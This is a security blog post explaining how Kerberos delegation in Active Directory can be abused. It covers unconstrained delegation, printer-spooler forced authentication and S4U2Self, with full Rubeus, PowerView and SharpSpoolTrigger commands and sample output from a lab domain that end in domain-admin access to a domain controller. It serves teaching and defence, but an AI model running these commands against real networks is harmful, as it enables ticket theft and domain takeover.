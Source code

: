 ```yaml
---
cover: https://i.postimg.cc/fW9FQ5D7/Designer.jpg
title: "A Deep Dive into Kerberos - Part 2: Exploiting Design Flaws in Delegation Mechanisms"
date: 8/25/2024 3:32:40 +06:00
categories: research
tags: [Unconstrained Delegation, Constrained Delegation, Alternate Service Name, S4U2Self, RBCD]
toc: true
toc_number: false
---
```


# Unconstrained Delegation
![Unconstrained Delegation](https://i.postimg.cc/h4XfzHtT/Unconstrained-drawio.png)

When a user wants to access a service eg: **HTTP** the client will ask for **Service Ticket** for HTTP service from the Ticket Granting Server by providing their TGT and SPN `HTTP\dev.dhitalcorp.local`, the Ticket Granting Server will verify the TGT provide them **ST** for that service, the client will then present the ST to the web server which will grant or deny them access. But in a dynamic web application the web application will have to  only display the information and functionalities this user is supposed to access as opposed to an administrator user right? Due to this issue Microsoft introduced unconstrained delegation. When the user sends **ST** to the web server computer, the web server computer will extract the user's **TGT** from the Service Ticket and cache it in its memory then it will send the user's TGT to the domain controller on behalf of this user to request service ticket for database server. After receiving the **ST** for database server it will connect to the database server on behalf of this user and complete the user impersonation to display only the information and functionalities which the client has access to or perform action on the web application as that user. 

**Note:** If unconstrained delegation is setup on a machine it will impersonate the user and delegate that user's credential to any service without any limitation.

# Problem with this Architecture
The main problem with unconstrained delegation is that any user who accesses the web application, the web server computer will cache their TGT in its memory. So if we have administrator access on web server computer we can extract TGT of every user who accessed the web application. Another interesting aspect to unconstrained delegation is that it will cache the user’s TGT regardless of which service is being accessed by the user from that computer. So, if an admin or user accesses a file share or any other service from that machine, their TGT will be cached.

# Exploiting Unconstrained Delegation
First we need to identify computers setup for Unconstrained Delegation on the domain. We can use PowerView or ADSearch.exe if you're using cobaltstrike.
```powershell
PS C:\Users\Alex> Get-DomainComputer -UnConstrained

Name               : APP01$
DistinguishedName  : CN=APP01,OU=Application Servers,DC=dev,DC=dhitalcorp,DC=local
OperatingSystem    : Windows Server 2016 Standard
Unconstrained      : True
```
After compromising `APP01$` computer we can use Rubeus or mimikatz for exporting the user's TGT who connected to this computer. Below we are using Rubeus.
```powershell
C:\Users\Alex> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage
-------------------------------------------------------------------------------------------------------------------- 
 | LUID     | UserName                  | Service                                       | EndTime                  |
 ------------------------------------------------------------------------------------------------------------------| 
 | 0x41a4c3 | administrator @ DEV.DHITALCORP.LOCAL | krbtgt/DEV.DHITALCORP.LOCAL        |   3/7/2024 3:52:17 PM    |
 ------------------------------------------------------------------------------------------------------------------| 
 | 0x35b5d2 | jdoe @ DEV.DHITALCORP.LOCAL | krbtgt/DEV.DHITALCORP.LOCAL                 |   3/7/2024 4:12:45 PM    |
 ------------------------------------------------------------------------------------------------------------------| 
```
We can see jdoe's TGT is cached. We can simply extract his TGT and leverage it using pass the ticket attack.

```powershell
C:\Users\Alex> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x35b5d2 /nowrap

woIGwkMuSU92GH23KL....==
```
# Exploiting Unconstrained delegation via forced authentication
Recently discovered a feature of MS-RPRN which allows any authenticated domain user can force any machine running spooler service to connect to a second machine of the user's choice. We can obtain TGT for machine accounts by forcing them to authenticate to this machine. If unconstrained delegation exists in a machine we can also leverage this to force domain controller to authenticate to this machine to get the TGT of machine account which we can everage via `S4U2Self` abuse. Below we are using Rubeus on app01 to continuously monitor for TGTs.

```powershell
C:\Users\Alex> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe monitor /interval:5 /nowrap
```
On any compromised machine we can use SharpSpoolTrigger to force dc.dev.dhitalcorp.local to authenticate to APP01.dev.dhitalcorp.local

```powershell
C:\Users\Alex> C:\Tools\SharpSystemTriggers\SharpSpoolTrigger\bin\Release\SharpSpoolTrigger.exe dc.dev.dhitalcorp.local app01.dev.dhitalcorp.local
```
As shown below rubeus will grab the TGT of DC$ machine account.
```powershell
[*] 3/7/2024 4:12:45 PM UTC - Found new TGT:

  User                  :  DC$@DEV.DHITALCORP.LOCAL
  StartTime             :  3/7/2024 4:00:00 PM
  EndTime               :  3/7/2024 10:00:00 PM
  RenewTill             :  3/14/2024 4:00:00 PM
  Flags                 :  name_canonicalize, pre_authent, renewable, forwarded, forwardable
  Base64EncodedTicket   :

wrJFljlELklQR2FG4EJ7KH7GB8erty....==

```
Now in order to exploit this we need to understand what `S4U2Self` and `S4U2Proxy` is.

- S4U2Self: Allows a service to request service ticket of itself on behalf of any user.
- S4U2Proxy: Allows a service to request service ticket of another service on behalf of any user.

Here, since we have TGT of domain controller abusing `S4U2Self` we can request service ticket of itself(domain controller) on behalf of any user meaning we can simply request service ticket for cifs service on domain controller for domain administrator. Suppose `alex` is the domain administrator.

```powershell
C:\Users\Alex> C:\Rubeus.exe s4u /impersonateuser:alex /self /altservice:cifs/dc.dev.dhitalcorp.local /user:dc$ /ticket:wrJFljlELklQR2FG4EJ7KH7GB8erty...== /nowrap

[*] Action: S4U

[*] Building S4U2self request for: 'DC$@dev.dhitalcorp.local'
[*] Using domain controller: dc.dev.dhitalcorp.local (10.10.63.110)
[*] Sending S4U2self request to 10.10.63.110:88
[+] S4U2self success!
[*] Substituting alternative service name 'cifs/dc.dev.dhitalcorp.local'
[*] Got a TGS for 'alex' to 'cifs@DEV.DHITALCORP.LOCAL'
[*] base64(ticket.kirbi):

ejKSyDWh6fgMuaW9ERb6jl89...=
```
Using this service ticket we can perform pass the ticket attack.

```powershell
C:\Users\Alex> Rubeus.exe ptt /tikcet:<base-64ticket>
```
We can now list shares on dc$ or psexec to gain system access.

```powershell
C:\Users\Alex> ls \\dc.dev.dhitalcorp.local\c$
```
Alternatively instead of cifs we could also request for service ticket for ldap and perform dcsync or request service ticket for HTTP for powershell remoting.

# Constrained Delegation
![Constrained Delegation](https://i.postimg.cc/8Cdhjccb/constrained.jpg)

Due to problem in unconstrained delegation and emerging attaks microsoft released constrained delegation instead of a server configured to delegate a user's credentials to any services, in constrained delegation a server is allowed to delegate the user's credential only to a specific server. eg the web server is only allowed to delegate the user's credential to database server. Here the server configured with constrained delegation does not cache a user's TGT in its memory. The server instead uses its own TGT to request for service ticket on behalf of a user.

## Working
- First the client will authenticate to a web application using form based authentication.
-  The web server computer will request **S4U2Self Ticket** for itself on behalf of the client from the KDC.
-  The web server computer will again send this **S4U2Self Ticket** to the KDC and request **S4U2Proxy Ticket** for CIFS service on behalf of the client.
-  The KDC will check the web server computer's `msDS-AllowedToDelegateTo` property and if CIFS service is listed, it will send **S4U2Proxy Ticket** for CIFS service on behalf of the client.
-  The web server computer will then use this **S4U2Proxy Ticket** to access CIFS server on behalf of the client.

## Problem with this architecture
Since its sole responsibility of server configured with constrained delegation to request service ticket for configured service eg: cifs on behalf of a user, but the server doesnot check for which user. Meaning if we compromise a server with constrained delegation we can request service ticket for the configured service on behalf of any user. We can access the cifs service as domain administrator as well.

